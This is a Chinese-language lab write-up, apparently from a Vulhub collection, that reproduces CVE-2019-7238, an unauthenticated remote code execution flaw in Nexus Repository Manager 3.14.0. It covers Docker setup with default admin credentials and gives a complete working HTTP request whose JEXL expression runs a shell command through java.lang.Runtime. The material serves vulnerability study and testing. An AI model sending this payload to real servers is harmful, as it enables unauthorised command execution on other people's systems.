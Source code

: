 # Nexus Repository Manager 3 远程命令执行漏洞 CVE-2019-7238

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.14.0及之前版本中，存在一处基于OrientDB自定义函数的任意JEXL表达式执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360017310793-CVE-2019-7238-Nexus-Repository-Manager-3-Missing-Access-Controls-and-Remote-Code-Execution-February-5th-2019
- https://xz.aliyun.com/t/4136
- https://www.anquanke.com/post/id/171116
- http://commons.apache.org/proper/commons-jexl/

## 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.14.0：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

使用账号密码`admin:admin123`登录后台，然后在maven-releases下随便上传一个jar包：

![image-20220226234636808](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262346892.png)

触发该漏洞，必须保证仓库里至少有一个包存在。

## 漏洞复现

接口没有校验权限，所以直接发送如下数据包，即可执行`touch /tmp/success`命令：

```
POST /service/extdirect HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 368
Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
```

![image-20220226234815987](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262348240.png)

可见，`/tmp/success`已成功执行：

![image-20220226234852790](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262348849.png)

原理是expression位置的JEXL表达式被执行，详情可阅读参考文档。

